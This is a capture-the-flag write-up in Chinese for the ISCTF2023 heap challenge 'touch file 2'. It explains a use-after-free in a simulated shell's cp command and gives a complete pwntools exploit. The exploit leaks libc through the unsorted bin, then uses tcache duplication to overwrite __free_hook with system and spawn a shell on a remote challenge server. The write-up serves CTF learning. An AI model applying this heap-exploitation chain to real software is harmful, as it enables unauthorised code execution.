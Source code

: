 ```yaml
---
title: isctf2023 - touch file 2
date: 2023/12/5 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - heap - tcache
    - libc2.31
excerpt: 通过利用堆漏洞和libc函数，成功实现了从程序获取shell的攻击。
---
```


## 文件分析

NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序  
glibc: 2.31

## 解题思路

程序模拟了命令行的执行，是一道简单堆题，主要利用点在cp命令上，
浅拷贝的模式使得uaf、double free十分容易

这道题中分配单元固定，为0x80，分配的chunk大小为0x91，首先分配7个耗尽tcache，
然后分配一个在unsorted bin中，cp+rm+cat读取main_arena，推出libcBase；
再进行tcache dup，把`__free_hook`写上system，最后给一个chunk上写上/bin/sh，
free它就能拿到shell

{% notel green fa-arrow-right tips %}
1. strncpy函数会将size中未输入的部分全部填0，并且复制时是'\0'截断的！这点要注意
2. 这题附件给了ld，给了libc，但是libstdc++之类的其他依赖都没给，这时候借助docker，
下载一个ubuntu容器可以快速解决问题（主要是本地的libcstdc++依赖高版本libc）
3. 手动释放一个chunk到unsorted bin中需要满足对应的后一个chunk处(&chunk + size)
的P位设为1
4. 当getline得到一个超长输入时，会分配一个chunk，用完后释放，可以考虑写入大量垃圾字符，
来触发`malloc_consolidate`（不是用在这题）
{% endnotel %}

## EXPLOIT

```python
# 类型注释包含新版本特性，如无法运行，建议把类型注释删掉
from pwn import *
def execute(*args: str | bytes):
    global sh
    sh.recvuntil(b'>')
    sh.sendline(b' '.join(map(lambda arg: arg.encode() if isinstance(arg, str) else arg, args)))

def payload(lo):
    global sh
    if lo:
        sh = process('./touch_file2')
        if lo & 0b10:
            gdb.attach(sh, gdbscript = 'b *$rebase(0x1ab1)')
    else:
        sh = remote('43.249.195.138', 21815)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')# strncpy 会向dest中补充\0字符！！

    execute('touch', 'a')
    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e')
    execute('touch', 'f')
    execute('touch', 'g')
    execute('touch', 'h')
    execute('rm', 'h')
    execute('rm', 'g')
    execute('rm', 'f')
    execute('rm', 'e')
    execute('rm', 'd')
    execute('rm', 'c')
    execute('rm', 'b')

    execute('cp', 'a', 'aa')
    execute('rm', 'aa') # tcache full (7), free in unsorted bin
    execute('cat', 'a') # print fd (main_arena)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(sh.recvline()[-7:-1] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e') # alloc some chunks to consume tcache for tcache dup

    execute('touch', 'x')
    execute('cp', 'x', 'xx')
    execute('rm', 'xx')
    # tcache linked list status
    # head -> x -> f -> g -> h
    execute('edit', 'x', p64(freeHook))  # next = freeHook, key = 0
    # head -> x -> freeHook -> NULL
    execute('touch', 'y', p64(freeHook)) # next = freeHook, key = 0; without this content, next = 0
    # head -> freeHook -> NULL
    execute('touch', 'z', p64(system))   # modify *freeHook = system
    execute('edit', 'c', '/bin/sh')
    execute('rm', 'c') # free(chunk), *chunk => "/bin/sh", execute system("/bin/sh")

    sh.interactive()

payload(0)
```

Done.
